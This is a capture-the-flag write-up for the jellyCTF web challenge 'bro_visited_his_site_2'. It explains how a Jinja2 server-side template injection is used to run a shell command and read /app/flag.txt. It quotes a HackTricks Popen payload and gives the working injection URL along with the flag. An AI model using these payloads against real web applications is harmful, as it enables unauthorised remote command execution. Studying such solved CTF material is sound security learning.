

# bro_visited_his_site_2

**Difficulty**: Easy

**Points earned**: 453

**Description**:

> ok, but can you get /app/flag.txt
> 
> note: this is not the flask secret - that's the first bro_visited_his_site
> 
> 20 point hint: list of techniques for the vuln class
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/


**Solution**: 

Somehow we need to execute a shell command to print the contents of `flag.txt`. Doing some Googling about template injection (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), I found out that I needed to access the global object and use Popen to read `flag.txt`. This is the snippet that caught my attention:

> ### RCE
> ```python
> # The class 396 is the class <class 'subprocess.Popen'>
> {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,> stdout=-1).communicate()[0].strip()}}
> ```

When we visit `https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()`, we are greeted with a massive list of classes. The index of Popen here wasn't the same as it was in the HackTricks article above, so I had to look for it myself.

After finding Popen's index, I plugged it into the rest of the URL to get the flag:

```python
https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()[520]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```



**Flag**: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`